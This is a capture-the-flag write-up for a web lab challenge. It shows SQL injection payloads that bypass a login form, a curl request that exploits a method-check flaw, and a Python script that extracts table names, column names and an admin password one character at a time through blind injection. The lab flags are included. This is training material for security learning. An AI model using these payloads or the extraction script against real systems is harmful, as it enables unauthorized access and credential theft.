 Firstly, I have to login before doing anything. A login form has appeard and SQL Injection is the first I got in my mind.
```
username: admin'or/**/1=1--+-
password: 1
```
We got an error
```
Traceback (most recent call last):
  File "./main.py", line 145, in do_login
    if cur.execute('SELECT password FROM admins WHERE username=\'%s\'' % request.form['username'].replace('%', '%%')) == 0:
  File "/usr/local/lib/python2.7/site-packages/MySQLdb/cursors.py", line 255, in execute
    self.errorhandler(self, exc, value)
  File "/usr/local/lib/python2.7/site-packages/MySQLdb/connections.py", line 50, in defaulterrorhandler
    raise errorvalue
ProgrammingError: (1064, "You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''' at line 1")
```
--> This application is using `SQL` and `MariaDB` 
I have tried a lot with `or` and `1=1` but it seems a wrong way.
Look at the query, I think it doesn't response anything, so I use `union` to bypass this thing
```
// Replace `--+-` to `#` 
username: admin' union select '1' as password #
password: 1
```
And the frist flag in private page
```
Flag is : ^FLAG^d0e601294c1ecc7f76fd8185b5a49178d6b7616a68e33d4bcde1d9c7ecbe079c$FLAG$
```

Secondly, I got a hint `Just because request fails with one method doesn't mean it will fail with a different method`. After that, I use BurpSutie to intercept the request and change method from `GET` to `POST`, but I always receive `BAD REQUEST The browser (or proxy) sent a request that this server could not understand.` 😶
Okay fine, I decide to use `curl` tool in Kali for this purpose.
```
curl -v -X POST http://35.190.155.168/2ef1ae5437/page/edit/2
```
```
Flag is : ^FLAG^09c2a73b2205519aa65ff713904d07024f36b1c4ce0bfaab7d25b567aa1596c9$FLAG$
```

Finally, I got final hint `Credentials are secret, flags are secret. Coincidence?`. This credentials are mentioned might be the password of someone else in database. So, back to login page and SQLi to find the password.

You can use `sqlmap` to automaticly brute force, but I'll code in Python or use Burp Suite to understand what I am doing

```
username: admin' union select if(substr((select database() from information_schema.tables where table_name=),1,1)='a','1',0) as password #
password: 1
```
I got an error, `level2` may be the database's name
```
Traceback (most recent call last):
  File "./main.py", line 145, in do_login
    if cur.execute('SELECT password FROM admins WHERE username=\'%s\'' % request.form['username'].replace('%', '%%')) == 0:
  File "/usr/local/lib/python2.7/site-packages/MySQLdb/cursors.py", line 255, in execute
    self.errorhandler(self, exc, value)
  File "/usr/local/lib/python2.7/site-packages/MySQLdb/connections.py", line 50, in defaulterrorhandler
    raise errorvalue
ProgrammingError: (1146, "Table 'level2.information_schema' doesn't exist")
```
Use Burp Suite to intercept password and send it to `Repeater`
- Payload is [a-zA-z0-9]
- Flag is `Invalid password`
```
username: admin' union select if(substr((select group_concat(table_name,',') from information_schema.tables where talbe_type='base table'),1,1)='a','1',0) as password #
password: 1
```
--> The table'name I got is `admins`

Next, I brute froce column name
```
username: admin' union select if(substr((select group_concat(column_name,',') from information_schema.columns where table_name='admins'),1,1)='a','1',0) as password #
password: 1
```
--> `id, username, password`

And brute force the password
```
username: admin' union select if(substr((select group_concat(password,'|') from admins),1,1)='a','1',0) as password #
password: 1
```
--> `sally`

Login with the following credentials and get the flag
```
Flag is : ^FLAG^f0d9708f40a0406ac7f4ebda750603ecc333a3e375f20cc1124dd8167e7adfb7$FLAG$
```

Sorry for my shilly code 😅 Just a draft
```python
import string
import requests

URL = "http://35.190.155.168/2ef1ae5437/login"
TRUE_PHRASE = 'Invalid password'

def query(body):
    # cookies = {'PHPSESSID': PHPSESSID}
    r = requests.post(URL, data=body)
    return TRUE_PHRASE not in r.text

def findColumnName():
    column = ''
    i = 1
    while True:
        for character in string.printable:
            body = {'username': "admin' union select if(substr((select group_concat(column_name,',') from information_schema.columns where table_name='admins'),{0},1)='{1}','1',0) as password #".format(i, character),'password': '1'}
            if query(body) is True:
                column += character
                print(column)
                break
        i += 1


def findPassword():
    column = ''
    i = 1
    while True:
        for character in string.printable:
            body = {'username': "admin' union select if(substr((select group_concat(password,'|') from admins),{0},1)='{1}','1',0) as password #".format(i, character),'password': '1'}
            if query(body) is True:
                column += character
                print(column)
                break
        i += 1
# findColumnName()
findPassword()
```